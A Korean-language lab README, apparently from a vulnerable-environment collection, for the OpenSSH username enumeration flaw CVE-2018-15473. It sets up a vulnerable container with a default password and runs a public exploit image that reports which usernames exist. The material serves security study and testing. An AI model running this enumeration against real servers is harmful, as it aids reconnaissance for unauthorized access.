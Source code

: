 # OpenSSH 사용자 이름 열거 취약점（CVE-2018-15473）

OpenSSH 7.7 이전 버전에는 사용자 이름 열거 취약점이 있습니다.
이를 통해 공격자는 특정 사용자 이름이 대상 호스트에 있는지 여부를 판단할 수 있습니다.

참고 링크：

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## 취약 환경

OpenSSH 7.7p1을 실행하는 컨테이너를 컴파일하고 실행시킵니다.：

```
docker compose build
docker compose up -d
```

클라이언트에서 `ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022`를 실행하고 비밀번호 `vulhub`를 입력하면 컨테이너에 로그인할 수 있습니다.

## 취약점 공격

[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)을 사용합니다.
userList 중 존재하는 사용자 이름을 열거합니다.：

```
cd CVE-2018-15473-Exploit
vi Dockerfile
# {your ip}를 수정합니다.

docker build -t cve-2018-15473 .
docker run cve-2018-15473
```


## 실행 결과
![](figure1.png)

root는 존재하는 사용자이고, rootInvalid는 존재하지 않는 사용자입니다.